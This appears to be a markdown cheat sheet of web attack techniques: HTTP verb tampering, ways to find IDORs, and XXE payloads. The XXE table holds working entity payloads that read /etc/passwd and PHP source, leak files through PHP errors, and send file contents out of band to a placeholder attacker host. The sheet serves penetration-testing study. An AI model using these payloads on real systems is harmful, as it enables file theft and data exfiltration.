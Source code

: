 # Web Attacks

## HTTP Verb Tampering
### HTTP Method
- HEAD
- PUT
- DELETE
- OPTIONS
- PATCH

| Command | Description |
|---------|-------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR
### Identify IDORs
- In URL parameters & APIs
- In AJAX Calls
- By understanding reference hashing/encoding
- By comparing user roles

| Command | Description |
|---------|-------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## XXE
| Code | Description |
|------|-------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |